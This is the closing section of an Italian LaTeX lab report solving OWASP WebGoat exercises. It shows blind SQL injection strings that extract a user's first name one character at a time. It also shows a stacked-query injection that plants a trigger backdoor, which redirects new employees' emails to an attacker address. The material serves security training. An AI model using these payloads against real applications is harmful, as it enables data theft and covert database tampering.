Risolviamo la lezione relativa a Blind SQL Injection proposta da WebGoat: abbiamo a disposizione un form che, preso in ingresso un numero di account, determina se questo \`e valido o no. Lo scopo della lezione \`e quello di scoprire il valore del campo ``first\_name'' dell'account che ha userid 15613. A tal scopo, lanciamo un attacco Blind SQL Injection al campo ``account number'', inserendo la query descritta nel listing \ref{code:query_3}.
\begin{lstlisting}[caption={Query di interrogazione}, label={code:query_3},frame=trBL]
101 AND (ascii( substr((SELECT first_name FROM 
                        user_data WHERE userid=15613),1 , 1)) < 77 );
\end{lstlisting}
\begin{figure}[h]
\centering

\includegraphics[width=300pt]{images/sql_injection_blind_1.png}
\caption{Blind SQL Injection: attacco al campo ``account number''}
\end{figure}
La risposta alla query \`e di tipo booleano. Se ``True'', la web application risponder\`a con il messaggio ``Account Valido'', con il messaggio ``Account non valido'' altrimenti. Interrogare il database con la query prodotta dall'inserimento di \ref{code:query_3} equivale a verificare se il primo carattere del campo ``first\_name'' della tupla identificata da ``userid = 15613'' ha valore ascii minore di 77 (ovvero, minore di 'M').
Procedendo per tentativi, si pu\`o identificare il valore del campo ``first\_name'', sostituendo, nelle queries, il segno di minore con il segno di uguale \ref{code:query_4}
\begin{lstlisting}[caption={Query di interrogazione}, label={code:query_3},frame=trBL]
/* J */
101 AND (ascii( substr((SELECT first_name FROM 
                          user_data WHERE userid=15613),1 , 1)) = 74);
/* o */
101 AND (ascii(substr((SELECT first_name FROM 
                       user_data WHERE userid=15613),2 , 1)) = 111);
/* e */
101 AND (ascii(substr((SELECT first_name FROM 
                       user_data WHERE userid=15613),3 , 1)) = 101);
/* s */
101 AND (ascii(substr((SELECT first_name FROM 
                       user_data WHERE userid=15613),4 , 1)) = 115);
/* p */
101 AND (ascii(substr((SELECT first_name FROM 
                       user_data WHERE userid=15613),5 , 1)) = 112);
/* h */
101 AND (ascii(substr((SELECT first_name FROM 
                       user_data WHERE userid=15613),6 , 1)) = 104);
\end{lstlisting}
Il valore del campo ``first\_name'' \`e ``Joesph''.
\subsection{Database Backdoors}
I database permettono la creazione di {\it triggers}, ovvero di {\it stored procedures} che verranno chiamate dal database manager contestualmente all'esecuzione di altre operazioni come select, insert, update. Un attaccante, ad esempio, pu\`o inserire un trigger che sostituir\`a il campo email di ogni nuovo utente con il suo indirizzo di posta elettronica.

Riprendiamo l'esempio del paragrafo precedente e attacchiamo nuovamente il campo ``account number'' inserendo la stringa contenuta nel listing \ref{code:query_5}.
\begin{lstlisting}[caption={Query di interrogazione}, label={code:query_5},frame=trBL]
101; CREATE TRIGGER myBackDoor BEFORE INSERT ON employee 
                          FOR EACH ROW BEGIN UPDATE employee 
                          SET email='john@hackme.com' 
                          WHERE userid = NEW.userid
\end{lstlisting}
\clearpage
\begin{thebibliography}{3}
\bibitem{OWASP} OWASP, \emph{OWASP - Main page} \newline http://www.owasp.org/index.php/Main\_Page
\bibitem{WebGoat} OWASP, \emph{WebGoat Project} \newline http://www.owasp.org/index.php/Category:OWASP\_WebGoat\_Project
\bibitem{HTTPOnly} OWASP, \emph{HTTPOnly} \newline http://www.owasp.org/index.php/HTTPOnly
\bibitem{Debian} Debian, \emph{Etch and a Half} \newline http://wiki.debian.org/EtchAndAHalf
\bibitem{tomcat} Apache, \emph{Tomcat} \newline http://tomcat.apache.org/
\bibitem{iceweasel} Wikipedia, \emph{IceWeasel} \newline http://en.wikipedia.org/wiki/IceWeasel
\bibitem{JDK} Sun Developer Network, \emph{Java SE Downloads} \newline http://java.sun.com/javase/downloads/index.jsp

\bibitem{XSRF} Wikipedia, \emph{Cross-site Request Forgery} \newline http://en.wikipedia.org/wiki/Cross-site\_request\_forgery
\bibitem{XST} Wikipedia, \emph{Cross-site Tracing} \newline http://en.wikipedia.org/wiki/Cross\_Site\_Tracing
\end{thebibliography}

\end{document}
